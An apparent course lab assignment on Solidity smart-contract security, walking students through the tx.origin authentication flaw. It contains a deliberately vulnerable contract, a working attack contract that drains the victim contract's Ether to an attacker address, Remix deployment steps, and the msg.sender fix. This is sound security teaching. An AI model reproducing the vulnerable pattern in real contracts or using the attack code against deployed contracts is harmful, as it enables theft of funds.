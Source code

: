 # Module 9 - Intermediate Lab: Gone Phishing

## Background
As with all software, there is a chance that a smart contract may be exploited. In the case of smart contracts, though, there is an especially high risk, since transactions are permanent and wallets are essentially anonymous. To prevent financial loss, it is a good idea to follow best practices for secure programming.

## Meta Information
| Attribute | Explanation |
| - | - |
| Summary | This assignment goes over exploiting a bad practice in smart contract programming. |
| Topics  | Smart contracts, security, risk of financial loss. |
| Audience | Appropriate for CS1 or a later course. |
| Difficulty | Intermediate. |
| Strengths | This assignment makes students aware of a type of security issue, attack scenario, and a best practice when writing code for smart contracts. |
| Weaknesses | Effective secure programming requires the discipline of strict adherence to many, potentially unintuitive guidelines which are impractical to present a breadth of in a single lab. |
| Dependencies | Some programming knowledge and an internet-connected computer with a suitable browser for use of [the Remix IDE][Remix]. |
| Variants | There are many vulnerabilities which could be the focus instead. |

## Assignment Instructions
1. In Solidity, there is a global variable called `tx.origin`, which contains the address of the account that originally sent the call or the transaction. In this lab, we will explore why using `tx.origin` as a form of authentication can lead to exploitation.
2. First, we begin by creating a contract with a simple purpose such as temporarily holding Ether for the owner (just as legitimate contracts in use hold Ether to enable various functions). Copy the following code into [Remix]:
    _Phishable.sol_
    ```solidity
    contract Phishable {
        address public owner;
        constructor (address _owner) {
            owner = _owner;
        }

        function () public payable {} // collect ether

        function withdrawAll(address _recipient) public {
            require(tx.origin == owner);
            _recipient.transfer(this.balance);
        }
    }
    ```
3. We then create another contract to attack `Phishable.sol`. In a new document, create `AttackContract.sol`:
    _AttackContract.sol_
    ```solidity
    import "browser/Phishable.sol";

    contract AttackContract {
        Phishable phishableContract;

        address attacker; // The attacker's address to receive funds

        constructor (Phishable _phishableContract, address _attackerAddress) {
            phishableContract = _phishableContract;
            attacker = _attackerAddress;
        }

        function () payable {
            phishableContract.withdrawAll(attacker);
        }
    }
    ```
4. In `AttackContract`, we see that whenever this contract is paid an amount, it then calls the `Phishable` contract’s `withdrawAll` function providing the address to send funds to. The `Phishable` contract authorizes this transaction, because its owner is the originator of the transaction (from paying the attacker’s contract). Why would the owner pay the attacker’s contract? Perhaps the attacker provided the contract’s address as their payment address in a private transaction with the owner of `Phishable`. This is an example of a spearphishing attack, where the attacker would have identified that `Phishable` is phishable and then organized a plan of attack to have the owner of the `Phishable` be involved in a transaction that would allow this attack to occur. 
5. Let's see this attack in action. You should have already created both files in Remix by now. While active in the `browser/Phishable.sol` tab, click on "Compile" on the top right hand side of the screen and click on "Select new compiler version."
* The version of the compiler should be 
```
version:0.4.23+commit.124ca40d.
```
You might see a few warnings, but that's okay, the compiler should still compile the code properly. 

6. Next, we will deploy the `Phishable` contract. We can do this by clicking on the "Run" tab next to the "Compile" tab on the top right side of the screen. Make sure the run tab has the following settings:
* Environment: Javascript VM
* Account: (this varies, just make sure it's consistent with the deployment address)
* Gas limit: 3000000
* Value: 10 Ether
* Deploy: (same as account address)  
![Deploying Phishable.sol](deploy1.PNG)

* In the Remix logs, you should see something like this: 
 
![Successful deployment](successful_deployment1.PNG)  
* On the right hand side of the screen there should be an area that looks like this:  

![Contract in memory](memory1.PNG)  

7. Now that the `Phishable.sol` contract is loaded onto memory, we need to deploy the attacker's `AttackContract.sol` as well to see the vulnerability in action. Click on the `browser/AttackContract.sol` to make it active then click on "Compile." The compiler version should be the same as earlier, but in case it isn't, use the same one:
* The version of the compiler should be 
```
version:0.4.23+commit.124ca40d.
```

Click on "Start to compile." Again, you should see some warnings, but the code should compile successfully. Now, assume you are the owner of Phishable, but you see this coming before you deploy; how would you fix it?

8. We can prevent an attack like this (using tx.origin for authentication purposes) by checking that the sender is the owner instead. In the `Phishable.sol` contract, change the line `require(tx.origin == owner);` to `require(msg.sender == owner);`. Now, when `AttackContract` is paid an amount by the owner of `Phishable` and calls `Phishable`’s `withdrawAll` function, the funds will not be transferred to the attacker’s address, since they are not the owner. The code for `Phishable` should look like this:
    _Phishable.sol_
    ```solidity
    contract Phishable {
        address public owner;
        constructor (address _owner) {
            owner = _owner;
        }

        function () public payable {} // collect ether

        function withdrawAll(address _recipient) public {
            require(msg.sender == owner);
            _recipient.transfer(this.balance);
        }
    }
    ```

## Credits
Dr. Debasis Bhattacharya  
Mario Canul  
Saxon Knight  
https://github.com/ethereumbook/ethereumbook  

[Remix]: https://remix.ethereum.org/
